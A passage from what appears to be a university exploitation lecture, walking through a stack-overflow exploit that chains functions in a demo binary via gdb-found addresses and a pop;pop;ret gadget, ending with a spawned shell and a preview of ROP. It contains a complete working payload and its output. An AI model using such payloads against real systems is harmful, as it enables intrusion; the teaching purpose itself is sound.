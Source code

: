 With this information in place, we can complete the exploit by first
identifying the other important address and lining up our stack like
below:

``` example
|     <addr pwn>         |
|     0xdeadbeef         |
|     <addr bad>         |
|     <addr add_sh>      |
|     0x0badf00d         |
|     0xcafebabe         |
|     <addr pop;pop;ret> |
|     <addr add_bin>     |
```

We can use gdb to find the other addresses:

``` example
user@si485H-base:demo$ gdb -q call_bad_doublechain
Reading symbols from call_bad_doublechain...done.
(gdb) x/x add_bin
0x80484ad <add_bin>:    0x57e58955
(gdb) x/x add_sh
0x804850b <add_sh>: 0x57e58955
(gdb) x/x bad
0x804855c <bad>:    0x83e58955
(gdb) x/x pwn
0x804a060 <pwn>:    0x00000000
(gdb) quit

user@si485H-base:demo$ ./call_bad_doublechain `python -c "s='A'*(0x6c+4); 
s+='\xad\x84\x04\x08'; 
s+='\x08\x85\x04\x08'; 
s+='\xbe\xba\xfe\xca';
s+='\x0d\xf0\xad\x0b';
s+='\x0b\x85\x04\x08';
s+='\x5c\x85\x04\x08';
s+='\xef\xbe\xad\xde';
s+='\x60\xa0\x04\x08';
print s; "`
?uf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????

 \ﾭ?`?
add_bin: pwn: /bin
add_sh: pwn: /bin/sh
You've been PWNED!
$ 
```

## Where do we go from here?

In this example, we used a gadget within the code that did a simple task
of chaining functions with different numbers of arguments. What if we
were to do something more interesting? What if we were able to find
enough gadgets to build a complete exploit? That idea is called ROP
exploits, and believe it or not, you can do a *complete* exploit with
shell code using *only* small gadgets. And, yes, it is as awesome as it
sounds!
